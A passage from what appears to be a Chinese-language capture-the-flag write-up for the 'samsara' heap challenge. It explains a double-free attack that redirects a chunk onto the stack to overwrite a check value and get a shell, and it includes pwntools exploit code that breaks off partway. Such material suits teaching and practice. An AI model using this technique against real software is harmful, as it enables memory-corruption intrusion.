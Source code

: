 ```python
    sh.sendline(b"5")
    sh.recvuntil(b"Which kingdom?\n")
    sh.sendline(str(content).encode())
    sh.recvuntil(b"Moved. \n")


def pwn():
    sh.recvuntil(b"choice > ")
    sh.sendline(b"6")
    sh.interactive()

```

先写好功能菜单，根据我们的想法，我们应该先申请 2 个 chunk，然后再删除 idx 为`0, 1, 0`的 chunk

![image-20220321152623422](https://oss.nova.gal/img/image-20220321152623422.png)

此时我们再次 add 一下，这个 chunk 的 fd 和 bk 指针就是可控的了。我们将其修改为`lair-0x08`，也就是`pwn-0x10`的位置——这样对这个 chunk 修改时，修改的地方正好是`pwn`的位置。并修改 lair 的值为`0x20`以 bypass 检查。

![image-20220321153500569](https://oss.nova.gal/img/image-20220321153500569.png)

此时我们拿到这个位于栈上的 chunk 并修改其值为`0xdeadbeef`即可拿到 shell

exp:

```python
from pwn import *

sh = process(["./samsara"])
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'


def add():
    sh.recvuntil(b"choice > ")
    sh.sendline(b"1")
    sh.recvuntil(b"Captured.\n")


def delete(idx: int):
    sh.recvuntil(b"choice > ")
    sh.sendline(b"2")
    sh.recvuntil(b"Index:\n")
    sh.sendline(str(idx).encode())
    sh.recvuntil(b"Eaten.\n")


def edit(idx: int, content: bytes):
    sh.recvuntil(b"choice > ")
    sh.sendline(b"3")
    sh.recvuntil(b"Index:\n")
    sh.sendline(str(idx).encode())
    sh.recvuntil(b"Ingredient:\n")
    sh.sendline(content)
    sh.recvuntil(b"Cooked.")


def lair() -> int:
    sh.recvuntil(b"choice > ")
    sh.sendline(b"4")
    sh.recvuntil(b"Your lair is at: ")
    lair_addr = int(sh.recvuntil(b'\n', drop=True), 16)
    return lair_addr
```